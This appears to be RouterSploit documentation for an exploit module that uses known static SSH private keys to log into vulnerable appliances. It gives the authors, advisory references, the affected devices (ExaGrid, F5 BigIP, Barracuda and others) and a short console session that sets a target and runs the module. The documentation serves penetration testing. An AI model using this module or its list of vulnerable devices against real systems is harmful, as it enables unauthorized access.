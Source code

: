 # Multi SSH Authorized Keys

## Description
Module exploits private key exposure vulnerability. If the target is vulnerable it is possible to authentiate to the device.

## Authors
* xistence <xistence[at]0x90.nl> # Quantum DXi V1000, Array Networks, Loadbalancer.org Enterprise VA 7.5.2 vulnerability discovery
* Cristiano Maruti (@cmaruti) # Baracuda Load Balancer vulnerabiltiy discovery
* Jasper Greve # Ceragon FibeAir IP-10 vulnerability discovery
* HD Moore # Ceragon FibeAir IP-10 vulnerability discovery
* Matta Consulting # F5 BigIP
* egypt # ExaGrid
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://github.com/rapid7/ssh-badkeys](https://github.com/rapid7/ssh-badkeys)
* [http://packetstormsecurity.com/files/125761/Array-Networks-vxAG-xAPV-Privilege-Escalation.html](http://packetstormsecurity.com/files/125761/Array-Networks-vxAG-xAPV-Privilege-Escalation.html)
* [http://seclists.org/fulldisclosure/2015/Jan/76](http://seclists.org/fulldisclosure/2015/Jan/76)
* [https://github.com/cmaruti/reports/raw/master/barracuda_load_balancer_vm.pdf](https://github.com/cmaruti/reports/raw/master/barracuda_load_balancer_vm.pdf)
* [https://gist.github.com/todb-r7/5d86ecc8118f9eeecc15](https://gist.github.com/todb-r7/5d86ecc8118f9eeecc15)
* [https://www.trustmatta.com/advisories/MATTA-2012-002.txt](https://www.trustmatta.com/advisories/MATTA-2012-002.txt)
* [https://community.rapid7.com/community/metasploit/blog/2012/06/11/scanning-for-vulnerable-f5-bigips-with-metasploit](https://community.rapid7.com/community/metasploit/blog/2012/06/11/scanning-for-vulnerable-f5-bigips-with-metasploit)
* [http://packetstormsecurity.com/files/125754/Loadbalancer.org-Enterprise-VA-7.5.2-Static-SSH-Key.html](http://packetstormsecurity.com/files/125754/Loadbalancer.org-Enterprise-VA-7.5.2-Static-SSH-Key.html)
* [https://www.kb.cert.org/vuls/id/662676](https://www.kb.cert.org/vuls/id/662676)
* [http://packetstormsecurity.com/files/125755/quantum-root.txt](http://packetstormsecurity.com/files/125755/quantum-root.txt)
* [https://github.com/mitchellh/vagrant/tree/master/keys](https://github.com/mitchellh/vagrant/tree/master/keys)
* [https://community.rapid7.com/community/infosec/blog/2016/04/07/r7-2016-04-exagrid-backdoor-ssh-keys-and-hardcoded-credentials](https://community.rapid7.com/community/infosec/blog/2016/04/07/r7-2016-04-exagrid-backdoor-ssh-keys-and-hardcoded-credentials)

## Vulnerable devices
* ExaGrid firmware < 4.8 P26
* Quantum DXi V1000
* Array Networks vxAG 9.2.0.34 and vAPV 8.3.2.17 appliances
* Barracuda Load Balancer
* Ceragon FibeAir IP-10
* F5 BigIP
* Loadbalancer.org Enterprise VA 7.5.2
* Digital Alert Systems DASDEC and Monroe Electronics One-Net E189 Emergency Alert System
* Vagrant

## Usage
```
rsf > use exploits/multi/ssh_auth_keys
rsf (Multi SSH Authorized Keys) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address e.g. 192.168.1.1


rsf (Multi SSH Authorized Keys) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Multi SSH Authorized Keys) > run
[*] Running module...
```
